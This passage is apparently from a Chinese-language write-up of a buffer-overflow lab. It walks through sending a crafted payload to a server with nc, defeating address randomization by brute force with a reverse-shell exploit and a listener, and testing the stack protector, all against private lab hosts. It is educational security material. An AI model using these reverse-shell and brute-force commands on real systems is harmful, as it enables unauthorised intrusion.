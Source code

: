 然后执行

```bash
$ ./exploit.py
$ cat badfile | nc 10.9.0.8 9090
```

得到了结果

<img src="https://i.loli.net/2021/07/11/4gDQqSNBbR1LkZJ.png" alt="image-20210711013308222" style="zoom:50%;" />

# Task 6: Experimenting with the Address Randomization

打开地址随机化

```bash
$ sudo sysctl -w kernel.randomize_va_space=2
```

各执行两次如下命令

```bash
$ echo hello | nc 10.9.0.5 9090
^C
$ echo hello | nc 10.9.0.7 9090
^C
```

得到结果

<img src="https://i.loli.net/2021/07/11/zcwL1Jas2qbiIlD.png" alt="image-20210711014055617" style="zoom:50%;" />

可以看到，每次地址都不相同，导致攻击困难。

使用 Task2 中 reverse shell 的 exploit.py 代码，执行命令

```bash
$ ./exploit.py
$ ./brute-force.sh
```

```bash
$ nc -lnv 9090
```

在尝试 $52417$ 次后，成功获得权限

<img src="https://i.loli.net/2021/07/11/ciCjkt2rNG4xIOB.png" alt="image-20210711022543522" style="zoom:50%;" />

# Tasks 7: Experimenting with Other Countermeasures

进入 server-code 文件夹，去除 `-fno-stack-protector` 编译 stack.c，并将 badfile 作为输入

<img src="https://i.loli.net/2021/07/11/MTQGHuytkw6argj.png" alt="image-20210711023842869" style="zoom:50%;" />

可以看到检测到了 stack smashing。
